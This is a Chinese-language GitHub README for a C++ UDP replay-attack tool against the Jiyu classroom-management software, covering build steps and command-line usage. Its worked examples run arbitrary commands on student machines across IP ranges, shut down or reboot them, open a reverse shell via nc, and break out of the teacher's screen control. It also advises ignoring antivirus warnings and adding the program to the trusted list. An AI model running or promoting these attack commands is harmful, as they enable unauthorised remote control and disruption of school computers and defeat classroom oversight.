 # Jiyu-UDP-Attack-Cpp
使用 C++ 编写的 UDP 重放攻击脚本，用于极域电子教室。

English document: [README.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README.md)

## 注意
因为调用了某些系统防火墙服务，所以可能会被杀毒软件误报。忽略并添加信任即可。  
如果编译运行后出现乱码的情况，请尝试更换编码后编译。`main.cpp` 使用 GB 2312 编码可以正常使用。

## 编译
要求的系统环境：Windows  
要求的最低 C++ 版本：C++11

注：所有头文件已经手动添加到 main.cpp 当中。所以你无需将头文件添加到编译环境中，而可以直接复制/下载 main.cpp 文件并直接编译。

编译命令：

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### MinGW
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

当使用 GCC / MinGW 编译器时注意：  
确保在引用库的搜索目录中包含了 Windows 相关的程序库。  
不要忘记添加编译参数 `-lws2_32`。如果不使用命令行编译，请在 IDE 的编译选项中加入相应参数。

## 使用方法
通过运行程序或调用如下命令启用用户界面：
```bash
main
```

或者使用命令行调用：
```bash
main [-h(--help) |
  [-i(--i(--ip)) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-n(--ncport) <NC Port>]]
```

参数列表：
| 参数 | 描述 | 默认值 |
| -------- | ----------- | ------- |
| `-h(--help)` | 显示帮助文本。 | |
| `-i(--ip) <IP>` | 指定目标机的 IP。 | |
| `-p <Port>` | 指定监听的端口。 | 4705 |
| `-m(--msg) <Message>` | 指定要发送的信息。 | |
| `-c <Command>` | 在目标机上运行指定命令。 | |
| `-e <Extra Option>` | 加载额外选项。 | |
| `-l <Loop Count>` | 指定命令的循环次数。 | 1 |
| `-t <Loop Time Interval>` | 指定两次循环之间的时间间隔，单位为秒。 | 22 |
| `-n(--ncport) <NC Port>` | 指定 `nc` 命令的监听端口。 | 8888 |

在 `-e` 参数的 `<Extra Option>` 选项中，可用的选项有：
| 选项 | 描述 |
| ------ | ----------- |
| `r` | 重启目标机。 |
| `s` | 关闭目标机。 |
| `g` | 获取当前的 IP 地址和学生端监听的端口。 |
| `nc` | 反弹 Shell。目标机需要能访问互联网。在退出时可使用 `exit` 命令。 |
| `break` | 脱离屏幕控制。需要以管理员身份运行程序。 |
| `continue` | 恢复屏幕控制。 |

在 `-i(--ip)` 参数的 `<IP>` 中，可用的 IP 有：
- 一个独立的 IP。例子： `192.168.1.1`
- 一个 IP 段，以 `/24` 结尾。例子：`1892.168.1.1/24`
- 一个 IP 段，用 `-` 表示。例子： `192.168.1.2-10`  
注意：  
只有 IP 的最后一个数字可以成段。  
这是非法的： `192.168.1-80.1`

### 命令例子
1. 获取当前的 IP 地址和学生端监听的端口

```bash  
main -e g
```

2. 脱离屏幕控制

需要管理员权限，主要为了 MpsSvc。
```bash
main -e break
```

3. 恢复屏幕控制

```bash
main -e continue
```

4. 发送消息

给 IP 为 `192.168.1.1` 的目标机发送消息“Hello!”：
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

如果学生端监听的端口是 **4605**，使用参数 `-p <Port>` 来指定端口号。向 IP 为 `192.168.1.12` 的目标机发送消息“Hello!”：
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. 运行命令

在 IP 为 `192.168.1.12` 到 `192.168.1.137` 的目标机上弹出计算器：
```bash
main -i 192.168.1.12-137 -c calc.exe
```

如果要运行的命令中含有空格，使用引号包裹：
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. 反弹 Shell

目标机的 IP 应当为**某个IP**，不能批量反弹，且目标机需要能访问互联网。
```bash
main -i 192.168.1.1 -e nc
```

7. 关机重启

关机：
```bash
main 192.168.1.1 -e s
```

重启：
```bash
main 192.168.1.1 -e r
```

8. 循环执行

向 IP 为 `192.168.1.1` 到 `192.168.1.254` 的目标机发送消息“Hello!”，总共 3 次，每两次之间间隔 50 秒：
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## 头文件指南 & 贡献指南
如果你希望在自己的代码中调用本程序的相关接口，或者在源代码的基础上加以开发，可以参考 `header` 分支下的相关代码。其中所有不同模块的代码被分在不同的文件下，以头文件的形式互相引用。
头文件的文档可以参见：[Jiyu-UDP-Attack-Cpp 头文件文档](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/header/docs/zh.md)

如果希望对本代码提出贡献，可以提出 Issue / 在 `header` 分支下提出 PR~如果 PR 被合并，会即时对 `main.cpp` 进行更新的！

## 关于
受到了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack) 项目的启发，于是用 C++ 重写了一个。

## 许可证
[MIT 许可证](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
